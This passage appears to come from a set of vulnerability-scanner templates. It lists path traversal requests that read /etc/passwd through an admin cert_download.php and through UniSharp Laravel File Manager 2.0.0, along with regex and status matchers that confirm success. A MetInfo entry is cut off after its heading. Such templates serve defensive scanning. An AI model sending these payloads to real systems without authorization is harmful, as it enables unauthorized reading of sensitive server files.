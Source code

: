- {{BaseURL}}/admin/cert_download.php?file=pqpqpqpq.txt&certfile=../../../../../../../../etc/passwd
- {{BaseURL}}/admin/cert_download.php?file=pqpqpqpq.txt&certfile=cert_download.php

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - word**

- part - body
- words
  1. $certfile
  2. application/pdf
- condition - and

---

# UniSharp Laravel File Manager 2.0.0 - Arbitrary File Read

## Description

- UniSharp Larevel File Manager 2.0.0 is vulnerable to arbitrary file read.
- severity - high
- tags - lfr,edb,lfi,unisharp,laravel,filemanager,fileupload

## Requests

- Method - GET

### URL

- {{BaseURL}}/laravel-filemanager/download?working_dir=%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2F&type=&file=passwd

### Matchers

**Type - regex**

- part - body
- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# MetInfo \<=6.1.0 - Local File Inclusion
